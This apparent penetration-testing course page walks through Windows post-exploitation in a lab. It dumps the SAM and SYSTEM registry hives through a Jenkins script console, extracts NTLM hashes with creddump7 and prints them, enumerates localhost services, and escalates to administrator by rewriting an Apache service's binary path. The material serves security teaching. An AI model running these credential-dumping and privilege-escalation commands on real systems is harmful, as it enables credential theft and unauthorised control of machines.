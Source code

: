 +++
title = "Windows PE"
weight = 1
+++

## Local Password Hashes
Windows stores local user account password hashes in the Security Accounts Manager or *SAM* registry hive.  
Additionally, there is a key needed to decrypt  the encrypted hashes located in the *System* registry hive.

* Use your Jenkins script console to execute the following two commands
  * `reg.exe save hklm\sam c:\users\richard.f\xampp\sam`
  * `reg.exe save hklm\system c:\users\richard.f\xampp\sys`

![](./hash1.png)

These errors are common when using some type of web based shell to execute operating system commands via a scripting language such as Groovyscript.
The short answer is that the *\\* is being processed by the scripting interpreter as code.
You need to escape these characters by prepending them with an additional *\\* character.

![](./hash2.png)

Now run both commands with the proper character escaping and this will place a copy of the two registry hive 
files inside the xampp SMB share. You can then use smbclient to download to your attacking machine.

![](./hash3.png)

### Extracting hashs with creddump7 
Next we'll use an oldie but a goodie, creddump, to extract the hashes from the SAM!

* Download the *.deb* package.
  *  `wget http://tw.archive.ubuntu.com/ubuntu/pool/universe/c/creddump7/creddump7_0.1+git20190429-1.1_all.deb`
* Install the package
  * `sudo dpkg -i creddump7_0.1+git20190429-1.1_all.deb` 

Now run the following command from inside the directory where you saved **sys** and **sam**.

`/usr/share/creddump7/pwdump.py sys sam > hashes.txt`

##### hashes.txt

```bash
Administrator:500:aad3b435b51404eeaad3b435b51404ee:fa4621870bd7787de99541e0699e738c:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:2620172f5a22c57e5c7a5450e21313b8:::
```

## Enumerating localhost services
Sometimes (acctually lots of the time) when we get on a box we gain access to **localhost** services.  
These are services that aren't bound to **0.0.0.0** so we didn't detect them during our discovery phase.

`netstat -ant | findstr /I "listen"`

```
  TCP    0.0.0.0:80             0.0.0.0:0              LISTENING       InHost
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       InHost
  TCP    0.0.0.0:443            0.0.0.0:0              LISTENING       InHost
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       InHost
  TCP    0.0.0.0:3389           0.0.0.0:0              LISTENING       InHost
  TCP    0.0.0.0:5985           0.0.0.0:0              LISTENING       InHost
  TCP    0.0.0.0:8080           0.0.0.0:0              LISTENING       InHost
  TCP    0.0.0.0:47001          0.0.0.0:0              LISTENING       InHost
  TCP    0.0.0.0:49664          0.0.0.0:0              LISTENING       InHost
  TCP    0.0.0.0:49665          0.0.0.0:0              LISTENING       InHost
  TCP    0.0.0.0:49666          0.0.0.0:0              LISTENING       InHost
  TCP    0.0.0.0:49667          0.0.0.0:0              LISTENING       InHost
  TCP    0.0.0.0:49680          0.0.0.0:0              LISTENING       InHost
  TCP    0.0.0.0:49695          0.0.0.0:0              LISTENING       InHost
  TCP    0.0.0.0:49709          0.0.0.0:0              LISTENING       InHost
  TCP    192.168.0.130:139      0.0.0.0:0              LISTENING       InHost
  TCP    [::]:80                [::]:0                 LISTENING       InHost
  TCP    [::]:135               [::]:0                 LISTENING       InHost
  TCP    [::]:443               [::]:0                 LISTENING       InHost
  TCP    [::]:445               [::]:0                 LISTENING       InHost
  TCP    [::]:3389              [::]:0                 LISTENING       InHost
  TCP    [::]:5985              [::]:0                 LISTENING       InHost
  TCP    [::]:8080              [::]:0                 LISTENING       InHost
  TCP    [::]:47001             [::]:0                 LISTENING       InHost
  TCP    [::]:49664             [::]:0                 LISTENING       InHost
  TCP    [::]:49665             [::]:0                 LISTENING       InHost
  TCP    [::]:49666             [::]:0                 LISTENING       InHost
  TCP    [::]:49667             [::]:0                 LISTENING       InHost
  TCP    [::]:49680             [::]:0                 LISTENING       InHost
  TCP    [::]:49695             [::]:0                 LISTENING       InHost
  TCP    [::]:49709             [::]:0                 LISTENING       InHost
  ```

Although we can see that *80* and *443* are bound to **0.0.0.0**, those ports didn't show up on our nmap scan.
Likely due to Windows Defender firewall rules.

If we browse to one of those ports on **127.0.0.1** we can see it appears to be Apache packaged up with XAMPP.

![](./apache1.png)

* What is the name of the service?
  *  `sc query | findstr /I "apache"`

      ```
      SERVICE_NAME: Apache2.4
      DISPLAY_NAME: Apache2.4
      ```
* What is the binary path executed when the service starts?
  *  `sc qc apache2.4`

      ```
      [SC] QueryServiceConfig SUCCESS

      SERVICE_NAME: apache2.4
              TYPE               : 10  WIN32_OWN_PROCESS
              START_TYPE         : 2   AUTO_START
              ERROR_CONTROL      : 1   NORMAL
              BINARY_PATH_NAME   : "C:\users\richard.f\xampp\apache\bin\httpd.exe" -k runservice
              LOAD_ORDER_GROUP   :
              TAG                : 0
              DISPLAY_NAME       : Apache2.4
              DEPENDENCIES       : Tcpip
                                 : Afd
              SERVICE_START_NAME : LocalSystem

      ```
The binary executable is located inside the SMB share we have read/write to as "richard.f".  The service is configured 
to run with *LocalSystem* privileges.  Assuming our user has permissions to start and stop the service, we should be 
able to replace *httpd.exe* with a binary of our choosing and elevate our privileges to *LocalSystem*

* Can we stop the service?
  *  `sc query apache2.4`
      ```

      SERVICE_NAME: apache2.4
              TYPE               : 10  WIN32_OWN_PROCESS
              STATE              : 4  RUNNING
                                      (STOPPABLE, NOT_PAUSABLE, ACCEPTS_SHUTDOWN)
              WIN32_EXIT_CODE    : 0  (0x0)
              SERVICE_EXIT_CODE  : 0  (0x0)
              CHECKPOINT         : 0x0
              WAIT_HINT          : 0x0

      ```

It says it accepts shutdown, try it.

`sc stop "apache2.4"`

Now you can use *sc* to set a new binary path.  This could be a path to a reverse shell executable assuming you've got 
one that bypasses the target's EDR.  For a simpler approach, try this.

`sc config apache2.4 binpath= "cmd.exe /c net localgroup administrators sciencerocks\richard.f /add"`

```bash
[SC] ChangeServiceConfig SUCCESS
```

Now start the service again.


## Privilege escalation via Windows Service
For this exercise we'll leverage an RDP connection to **192.168.0.130** with our non-admin AD account.

* Use the *sc* command to check for interesting looking Windows Services
  *  `sc qc`
### Additional privilege escalation resources

Here are some suplimental resources for you to read through outside of class.

* [Fantastic Markdown cheat sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)
* [HackTricks - Windows Local Privilege Escalation](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation)
* [FuzzySecurity Windows Priv. Esc. Fundimentals](https://fuzzysecurity.com/tutorials/16.html)
* [Windows Priv. Esc. by Joseph Carson](https://delinea.com/blog/windows-privilege-escalation)
